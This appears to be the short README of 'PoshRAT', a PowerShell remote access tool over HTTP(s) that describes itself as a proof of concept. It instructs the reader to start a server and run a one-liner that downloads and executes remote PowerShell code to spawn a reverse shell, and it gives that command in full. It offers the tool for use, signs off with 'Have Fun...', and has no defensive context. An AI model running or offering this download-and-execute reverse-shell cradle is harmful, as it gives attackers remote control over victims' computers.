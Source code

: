 PoshRAT
=======

PowerShell RAT over HTTP(s)
Proof of Concept

Start the server on a device you control.
Execute the One-Liner Command to spawn a Reverse Shell.

Have Fun...

iex (New-Object Net.WebClient).DownloadString(“http://127.0.0.1/connect”)
 



